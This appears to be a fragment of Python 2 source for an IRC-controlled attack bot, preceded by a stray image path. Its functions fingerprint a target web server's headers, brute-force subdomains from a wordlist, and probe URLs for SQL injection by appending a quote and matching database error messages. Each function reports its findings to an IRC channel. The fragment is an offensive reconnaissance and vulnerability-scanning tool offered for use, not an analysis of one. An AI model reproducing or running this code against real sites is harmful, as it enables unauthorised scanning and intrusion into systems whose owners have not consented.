 def srvinfo():
  conn = httplib.HTTPConnection(target, 80)
  try:
    conn.request("HEAD", "/")
  except socket.timeout:
    print "[-] Server Timeout"
    s.send("PRIVMSG %s :%s\r\n" % (chan, "[-] Server Timeout"))
  except(KeyboardInterrupt, SystemExit):
    pass
  r1 = conn.getresponse()
  conn.close()
  ip = socket.gethostbyname(target)
  server = r1.getheader('Server')
  xpoweredby = r1.getheader('x-powered-by')
  date = r1.getheader('date')
  if xpoweredby == None:
    s.send("PRIVMSG %s :%s%s\r\n" % (chan, "[+] Ip of server: ", ip))
    s.send("PRIVMSG %s :%s%s\r\n" % (chan, "[+] Server info: ", server))
    s.send("PRIVMSG %s :%s%s\r\n" % (chan, "[+] Server date: ", date))
  else:
    s.send("PRIVMSG %s :%s%s\r\n" % (chan, "[+] Ip of server: ", ip))
    s.send("PRIVMSG %s :%s%s\r\n" % (chan, "[+] Server info: ", server))
    s.send("PRIVMSG %s :%s%s\r\n" % (chan, "[+] Xpoweredby: ", xpoweredby))
    s.send("PRIVMSG %s :%s%s\r\n" % (chan, "[+] Server date: ", date))
    
def sub():
  w00t = 0
  s.send("PRIVMSG %s :%s%s\r\n" % (chan, "[+] Target: ", domain))
  s.send("PRIVMSG %s :%s\r\n" % (chan, "[+] Checking for subdomains"))
  for sub in subdomains:
    subdomain = sub+'.'+domain
    try:
      target = socket.gethostbyname(subdomain)
      w00t = w00t+1
      s.send("PRIVMSG %s :%s\r\n" % (chan, subdomain))
    except:
      pass
  s.send("PRIVMSG %s :%s%s%s\r\n" % (chan, "[!] Found ",w00t, " subdomain(s)!"))
  
def SQLi(u):
  host = u + "'"
  try:
    source = urllib2.urlopen(host).read()
    for type, eMSG in sqlerrors.items():
      if re.search(eMSG, source):
	s.send("PRIVMSG %s :%s%s%s%s%s\r\n" % (chan, "[!] w00t,w00t!: ", host, " Error: ", type, " ---> SQL Injection"))
	sleep(2)
      else:
	pass
  except:
    pass
  